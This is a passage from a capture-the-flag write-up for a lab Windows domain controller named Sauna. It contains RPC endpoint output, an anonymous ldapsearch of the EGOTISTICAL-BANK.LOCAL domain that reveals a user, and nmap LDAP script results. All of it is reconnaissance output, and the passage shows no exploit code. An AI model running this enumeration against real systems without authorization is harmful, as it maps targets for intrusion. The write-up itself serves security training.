Protocol: N/A 
Provider: N/A 
UUID    : E7F76134-9EF5-4949-A2D6-3368CC0988F3 v1.0 
Bindings: 
          ncalrpc:[LRPC-7e523df60e49da0c28]
          ncalrpc:[OLE03B5FB516468201F73D219F7F64E]

Protocol: N/A 
Provider: N/A 
UUID    : B37F900A-EAE4-4304-A2AB-12BB668C0188 v1.0 
Bindings: 
          ncalrpc:[LRPC-7e523df60e49da0c28]
          ncalrpc:[OLE03B5FB516468201F73D219F7F64E]

Protocol: N/A 
Provider: N/A 
UUID    : ABFB6CA3-0C5E-4734-9285-0AEE72FE8D1C v1.0 
Bindings: 
          ncalrpc:[LRPC-7e523df60e49da0c28]
          ncalrpc:[OLE03B5FB516468201F73D219F7F64E]

Protocol: N/A 
Provider: N/A 
UUID    : C49A5A70-8A7F-4E70-BA16-1E8F1F193EF1 v1.0 Adh APIs
Bindings: 
          ncalrpc:[OLE5772C32419DB35C447860063CD17]
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncalrpc:[LRPC-c39d650322fe84776b]

Protocol: N/A 
Provider: N/A 
UUID    : C36BE077-E14B-4FE9-8ABC-E856EF4F048B v1.0 Proxy Manager client server endpoint
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncalrpc:[LRPC-c39d650322fe84776b]

Protocol: N/A 
Provider: N/A 
UUID    : 2E6035B2-E8F1-41A7-A044-656B439C4C34 v1.0 Proxy Manager provider server endpoint
Bindings: 
          ncalrpc:[TeredoControl]
          ncalrpc:[TeredoDiagnostics]
          ncalrpc:[LRPC-c39d650322fe84776b]

Protocol: N/A 
Provider: iphlpsvc.dll 
UUID    : 552D076A-CB29-4E44-8B6A-D15E59E2C0AF v1.0 IP Transition Configuration endpoint
Bindings: 
          ncalrpc:[LRPC-c39d650322fe84776b]

Protocol: N/A 
Provider: N/A 
UUID    : 0D3C7F20-1C8D-4654-A1B3-51563B298BDA v1.0 UserMgrCli
Bindings: 
          ncalrpc:[LRPC-d8e9e9363fd36b1659]
          ncalrpc:[OLE74BE56D63324BFF9EDAF51F530C3]

Protocol: N/A 
Provider: N/A 
UUID    : B18FBAB6-56F8-4702-84E0-41053293A869 v1.0 UserMgrCli
Bindings: 
          ncalrpc:[LRPC-d8e9e9363fd36b1659]
          ncalrpc:[OLE74BE56D63324BFF9EDAF51F530C3]

Protocol: N/A 
Provider: N/A 
UUID    : 7F1343FE-50A9-4927-A778-0C5859517BAC v1.0 DfsDs service
Bindings: 
          ncacn_np:\\SAUNA[\PIPE\wkssvc]
          ncalrpc:[LRPC-726edc84c8009db45c]

Protocol: N/A 
Provider: N/A 
UUID    : EB081A0D-10EE-478A-A1DD-50995283E7A8 v3.0 Witness Client Test Interface
Bindings: 
          ncalrpc:[LRPC-726edc84c8009db45c]

Protocol: N/A 
Provider: N/A 
UUID    : F2C9B409-C1C9-4100-8639-D8AB1486694A v1.0 Witness Client Upcall Server
Bindings: 
          ncalrpc:[LRPC-726edc84c8009db45c]

Protocol: N/A 
Provider: N/A 
UUID    : 1A0D010F-1C33-432C-B0F5-8CF4E8053099 v1.0 IdSegSrv service
Bindings: 
          ncalrpc:[LRPC-708f5e31d13adb82ee]

Protocol: N/A 
Provider: srvsvc.dll 
UUID    : 98716D03-89AC-44C7-BB8C-285824E51C4A v1.0 XactSrv service
Bindings: 
          ncalrpc:[LRPC-708f5e31d13adb82ee]

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Provider: spoolsv.exe 
UUID    : 76F03F96-CDFD-44FC-A22C-64950A001209 v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49677]
          ncalrpc:[LRPC-e185d9e8a57bfccaa1]

Protocol: N/A 
Provider: spoolsv.exe 
UUID    : 4A452661-8290-4B36-8FBE-7F4093A94978 v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49677]
          ncalrpc:[LRPC-e185d9e8a57bfccaa1]

Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol 
Provider: spoolsv.exe 
UUID    : AE33069B-A2A8-46EE-A235-DDFD339BE281 v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49677]
          ncalrpc:[LRPC-e185d9e8a57bfccaa1]

Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol 
Provider: spoolsv.exe 
UUID    : 0B6EDBFA-4A24-4FC6-8A23-942B1ECA65D1 v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49677]
          ncalrpc:[LRPC-e185d9e8a57bfccaa1]

Protocol: [MS-RPRN]: Print System Remote Protocol 
Provider: spoolsv.exe 
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49677]
          ncalrpc:[LRPC-e185d9e8a57bfccaa1]

Protocol: N/A 
Provider: N/A 
UUID    : DF4DF73A-C52D-4E3A-8003-8437FDF8302A v0.0 WM_WindowManagerRPC\Server
Bindings: 
          ncalrpc:[LRPC-1460447c0ee807d618]

Protocol: N/A 
Provider: sysmain.dll 
UUID    : B58AA02E-2884-4E97-8176-4EE06D794184 v1.0 
Bindings: 
          ncalrpc:[LRPC-f1a9f1a4a1d8cb66e3]

Protocol: N/A 
Provider: N/A 
UUID    : 2F5F6521-CB55-1059-B446-00DF0BCE31DB v1.0 Unimodem LRPC Endpoint
Bindings: 
          ncalrpc:[unimdmsvc]
          ncalrpc:[tapsrvlpc]
          ncacn_np:\\SAUNA[\pipe\tapsrv]

Protocol: N/A 
Provider: N/A 
UUID    : 650A7E26-EAB8-5533-CE43-9C1DFCE11511 v1.0 Vpn APIs
Bindings: 
          ncalrpc:[LRPC-20a410d6022597b5b3]
          ncalrpc:[VpnikeRpc]
          ncalrpc:[RasmanLrpc]
          ncacn_np:\\SAUNA[\PIPE\ROUTER]

Protocol: [MS-SCMR]: Service Control Manager Remote Protocol 
Provider: services.exe 
UUID    : 367ABB81-9844-35F1-AD32-98F038001003 v2.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49682]

Protocol: [MS-CMPO]: MSDTC Connection Manager: 
Provider: msdtcprx.dll 
UUID    : 906B0CE0-C70B-1067-B317-00DD010662DA v1.0 
Bindings: 
          ncalrpc:[LRPC-c594268aea48a603a1]
          ncalrpc:[OLEBF9D4A6D06F5258514A1F0489118]
          ncalrpc:[LRPC-c26dbd20c5f78a8397]
          ncalrpc:[LRPC-c26dbd20c5f78a8397]
          ncalrpc:[LRPC-c26dbd20c5f78a8397]

Protocol: N/A 
Provider: N/A 
UUID    : A4B8D482-80CE-40D6-934D-B22A01A44FE7 v1.0 LicenseManager
Bindings: 
          ncalrpc:[LicenseServiceEndpoint]

Protocol: N/A 
Provider: N/A 
UUID    : 54B4C689-969A-476F-8DC2-990885E9F562 v0.0 
Bindings: 
          ncalrpc:[LRPC-58ea95d8b47cfd7697]

Protocol: N/A 
Provider: N/A 
UUID    : BE7F785E-0E3A-4AB7-91DE-7E46E443BE29 v0.0 
Bindings: 
          ncalrpc:[LRPC-58ea95d8b47cfd7697]

Protocol: N/A 
Provider: N/A 
UUID    : F3F09FFD-FBCF-4291-944D-70AD6E0E73BB v1.0 
Bindings: 
          ncalrpc:[LRPC-3ab3cdc6188eb495db]

Protocol: N/A 
Provider: nrpsrv.dll 
UUID    : 30ADC50C-5CBC-46CE-9A0E-91914789E23C v1.0 NRP server endpoint
Bindings: 
          ncalrpc:[LRPC-5e59339db29e0d0e38]

Protocol: [MS-DNSP]: Domain Name Service (DNS) Server Management 
Provider: dns.exe 
UUID    : 50ABC2A4-574D-40B3-9D66-EE4FD5FBA076 v5.0 
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49698]

Protocol: [MS-FRS2]: Distributed File System Replication Protocol 
Provider: dfsrmig.exe 
UUID    : 897E2E5F-93F3-4376-9C9C-FD2277495C27 v1.0 Frs2 Service
Bindings: 
          ncacn_ip_tcp:10.10.10.175[49725]
          ncalrpc:[OLEF4C2BFB99C45EA8EADFEEA66F7E4]

Protocol: N/A 
Provider: N/A 
UUID    : BF4DC912-E52F-4904-8EBE-9317C1BDD497 v1.0 
Bindings: 
          ncalrpc:[LRPC-2cb6a064983d423506]
          ncalrpc:[OLE36A5EC2A0D75AA44E3104653B393]

Protocol: N/A 
Provider: pcasvc.dll 
UUID    : 0767A036-0D22-48AA-BA69-B619480F38CB v1.0 PcaSvc
Bindings: 
          ncalrpc:[LRPC-68e375054fea5aaaed]

[*] Received 400 endpoints.
```

## Ldap enumeration

- `ldapsearch -x -h 10.10.10.175 -b "dc=EGOTISTICAL-BANK,dc=LOCAL"`

```bash
# extended LDIF
#
# LDAPv3
# base <dc=EGOTISTICAL-BANK,dc=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20221021211816.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAJedY
 xkDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 133108606968291675
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK

# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL

# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL

# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL

# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL

# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL

# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL

# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL

# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL

# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL

# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL

# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL

# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL

# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL

# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL

# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL

# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL

# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL

# search result
search: 2
result: 0 Success

# numResponses: 19
# numEntries: 15
# numReferences: 3

```

- We get a user out of this `Hugo Smith`

### Nmap script for ldap

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ nmap -n -sV --script "ldap* and not brute" 10.10.10.175                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 15:31 EDT
Nmap scan report for 10.10.10.175
Host is up (0.030s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-22 02:31:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
|       ldapServiceName: EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       serverName: CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|       isSynchronized: TRUE
|       highestCommittedUSN: 98395
|       dsServiceName: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       dnsHostName: SAUNA.EGOTISTICAL-BANK.LOCAL
|       defaultNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
|       currentTime: 20221022023118.0Z
|_      configurationNamingContext: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
| ldap-search: 
|   Context: DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: DC=EGOTISTICAL-BANK,DC=LOCAL
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
|         instanceType: 5
|         whenCreated: 2020/01/23 05:44:25 UTC
|         whenChanged: 2022/10/21 21:18:16 UTC
|         subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         uSNCreated: 4099
|         dSASignature: \x01\x00\x00\x00(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\xBE\xE0\xB3\xC6%\xECD\xB2\xB9\x9F\xF8\D\xB2\xEC
|         uSNChanged: 98336
|         name: EGOTISTICAL-BANK
|         objectGUID: 504e6ec-c122-a143-93c0-cf487f83363
|         replUpToDateVector: \x02\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00F\xC6\xFFTH\x85uJ\xBF     \xC2\xD4\x05j\xE2\x8F\x16\x80\x01\x00\x00\x00\x00\x00\x97\x9Dc\x19\x03\x00\x00\x00\xAB\x8C\xEFx\xD1I\x85D\xB2\xC2\xED\x9Ce\xFE\xAF\xAD\x0C\xE0\x00\x00\x00\x00\x00\x00(8\xFE\x16\x03\x00\x00\x00\xDC\xD1T\x81\xF1a.B\xB4D
|         @     \xE6\x84u\x15p\x01\x00\x00\x00\x00\x00\xD4n\x0F\x17\x03\x00\x00\x00\xFDZ\x85\x92F\xDE^A\xAAVnj@#\xF6\x0C\x0B\xD0\x00\x00\x00\x00\x00\x00\xD0\xF0
|         \x15\x03\x00\x00\x00\x9B\xF0\xC5\x9Fl\x1D|E\x8B\x15\xFA/\x1A>\x13N\x14`\x01\x00\x00\x00\x00\x00\x10\xD5\x00\x17\x03\x00\x00\x00@\xBE\xE0\xB3\xC6%\xECD\xB2\xB9\x9F\xF8\D\xB2\xEC      \xB0\x00\x00\x00\x00\x00\x00\xD4\x04R\x14\x03\x00\x00\x00
|         creationTime: 133108606968291675
|         forceLogoff: -9223372036854775808
|         lockoutDuration: -18000000000
|         lockOutObservationWindow: -18000000000
|         lockoutThreshold: 0
|         maxPwdAge: -36288000000000
|         minPwdAge: -864000000000
|         minPwdLength: 7
|         modifiedCountAtLastProm: 0
|         nextRid: 1000
|         pwdProperties: 1
|         pwdHistoryLength: 24
|         objectSid: 1-5-21-2966785786-3096785034-1186376766
|         serverState: 1
|         uASCompat: 1
|         modifiedCount: 1
|         auditingPolicy: \x00\x01
|         nTMixedDomain: 0
|         rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|         fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         systemFlags: -1946157056
|         wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
|         objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         isCriticalSystemObject: TRUE
|         gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|         otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
|         otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
|         masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         ms-DS-MachineAccountQuota: 10
|         msDS-Behavior-Version: 7
|         msDS-PerUserTrustQuota: 1
|         msDS-AllUsersTrustQuota: 1000
|         msDS-PerUserTrustTombstonesQuota: 10
|         msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         msDS-NcType: 0
|         msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
|         dc: EGOTISTICAL-BANK
|     dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
